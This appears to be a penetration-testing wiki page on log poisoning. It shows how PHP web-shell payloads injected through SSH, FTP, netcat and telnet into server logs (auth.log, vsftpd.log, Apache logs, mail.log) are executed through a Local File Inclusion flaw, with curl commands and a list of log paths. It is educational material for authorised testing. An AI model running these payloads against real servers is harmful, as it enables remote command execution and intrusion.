 ```yaml
---
authors: ShutdownRepo
---
```


# logs poisoning

> [!WARNING]
> Log files may be stored in different locations depending on the operating system/distribution.

::: details /var/log/auth.log
For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```
:::


::: details /var/log/vsftpd.log
When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```
:::


::: details /var/log/apache2/access.log
When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

* About `access.log`: records all requests processed by the server.
* About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
* Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
* FreeBSD Apache access log file location: `/var/log/httpd-access.log`
* Windows Apache access log file location: **** `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx/access.log`
* Windows Nginx access log file location: `C:\nginx\log`
:::


::: details /var/log/apache/error.log
This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

* About `error.log`: records any errors encountered in processing requests.
* About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `error.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache error file location: `/var/log/httpd/error_log`
* Debian / Ubuntu Linux Apache error log file location: `/var/log/apache2/error.log`
* FreeBSD Apache error log file location: `/var/log/httpd-error.log`
* Windows Apache access log file location: **** `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx`
* Windows Nginx access log file location: `C:\nginx\log`
:::


::: details /var/log/mail.log
When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=/var/log/mail.log&cmd=id"
```
:::

